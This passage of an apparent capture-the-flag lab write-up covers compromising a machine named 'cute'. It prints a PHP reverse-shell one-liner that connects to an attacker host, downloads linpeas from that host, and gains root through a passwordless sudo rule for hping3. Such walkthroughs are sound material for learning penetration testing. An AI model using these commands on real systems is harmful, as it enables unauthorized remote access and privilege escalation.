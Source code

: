 ```
php -r '$sock=fsockopen("192.168.146.50",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![Img](../FILES/Cute/img-20220725115522.png)
##### Get the common shell 
## Privilege Escalation 
#### Download linpeas from local and execPrivilege Escalationute
```
www-data@cute:/tmp$ wget http://192.168.146.50/linpeas.sh
wget http://192.168.146.50/linpeas.sh
--2022-07-23 14:30:48--  http://192.168.146.50/linpeas.sh
Connecting to 192.168.146.50:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 777005 (759K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 758.79K  --.-KB/s    in 0.02s   

2022-07-23 14:30:48 (43.2 MB/s) - 'linpeas.sh' saved [777005/777005]

```
##### Got the useful information from linpeas
```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
    (ALL) NOPASSWD: ALL

```
##### As you can see, we can use hping3 without password when we use sudo
```
www-data@cute:/tmp$ sudo /usr/sbin/hping3   
sudo /usr/sbin/hping3
hping3> id
id
uid=0(root) gid=0(root) groups=0(root)
hping3> whoami
whoami
root
hping3> pwd
pwd
/tmp
hping3> 
```